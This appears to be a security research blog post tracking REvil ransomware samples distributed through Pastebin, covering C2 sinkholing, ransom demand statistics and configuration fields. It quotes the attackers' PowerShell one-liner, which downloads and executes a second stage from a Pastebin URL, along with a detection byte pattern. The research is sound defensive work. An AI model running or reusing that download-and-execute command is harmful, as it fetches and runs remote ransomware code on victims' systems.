 This research started by tracking REvil samples distributed via pastebin. The configuration extracted from these samples show a different strategy of the several affiliates. Detonating these samples in a sandbox and emulating traffic to the ransom site gave us the ability to track ransom demands per group and campaign. Analyzing the configuration of the different samples made us realize the C2 domains were identical across all samples. The team was able to sinkhole multiple REvil C2 domains1. The REvil C2 traffic is unidirectional and solely used for statistics. Piggybacking the C2 we can gain insight into the statistical data.

The affiliates using the REvil ransomware as a service (RaaS) are skilled and adapting their approach to the victim’s organization. We assume the attacks are often not targeted but more opportunity based. Access that is gained in some way is later escalated in order to take over an entire network.  
In the past 5 months we've analyzed over 150 000 unique infections, extracted ransom demands from 148 samples together demanding more than 38 million dollars. Some of the attacks are on a huge scale. Just in the last 7 days the REvil affiliates were able to encrypt over 6500 unique systems in two mayor attacks in both Europe and Africa. Topping all infections combined in the past 30 days.
  
As a security industry we have the task to strengthen our clients against such attacks. The most important defense is to have an offsite backup that is not “deletable” from the operational infrastructure. Next to proper backups consider segmentation, patch management, pentesting, security baseline and other fun stuff.  
  Proliferation via PastebinThis all started when we were talking with @RonnyTNL about an interesting attack scenario. It started with a standard PowerShell one-liner to download and execute the malware. The second PowerShell stage was distributed via PasteBin.C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe "IEX (New-Object System.Net.WebClient).DownloadString('https://pastebin.com/raw/Za3T5yJk');Invoke-KQMRZLUDUPNBP;Start-Sleep -s 10000"Analysis of the 2nd stage script shows it is essentially the “Invoke-ReflectivePEInjection.ps1” script by Joe Bialek (@JosephBialek), optimized with an additional function to pass a base64 encoded DLL to the main function. The following pattern was used to randomize function names “Invoke-[A-Z]{15}”. After seeing a couple of the scripts in PasteBin we decided to use the PasteBin API to download each new record. In order to detect the script, the following regex was used: “0x48, 0x89, 0xe3, 0x66, 0x83, 0xe4, 0x00, 0x48, 0xb9”. It worked great from the start however we suddenly saw an uptick in new samples being downloaded. After investigation it turned out the Buran ransomware family also used the same script and PasteBin for distribution. Luckily, there is a very specific difference between the two types allowing us to discern between the two families.By analyzing the DLL that’s injected in memory, we can see that the malware family dynamically imports its dependencies (see https://blag.nullteilerfrei.de/2019/11/09/api-hashing-why-and-how/). @leandrovelasco and me had a fun time trying to figure out the encryption functionality. After the first frustrating evening we luckily found the Cylance blog describing that the “obfuscation” we were looking at was in fact just RC4. For every PowerShell script we download from PasteBin, we first extract the base64 dll, and then extract the configuration. The configuration is extracted using the python script from the Cylance blog:  (https://threatvector.cylance.com/en_us/home/threat-spotlight-sodinokibi-ransomware.html).Analyzing the configuration data allows us to see the difference between various operators. The configuration allows attackers to kill certain processes and services and remove specific files. Looking at these characteristics might tell us something about the groups modus operandi.  Spotting differences in the configurationsThe configurations extracted contain many different fields, the ones we are interested in for the purposes of this blog are: 


OptionFuction
PID	Affiliate ID
SUB	Campaign ID
DMN	List of 1100 different domains where the c2 information is sent.
PRC	List of processes to kill
SVC	List of services to kill
NNAME	Ransom note filename
NET	Boolean turning C2 traffic on and off
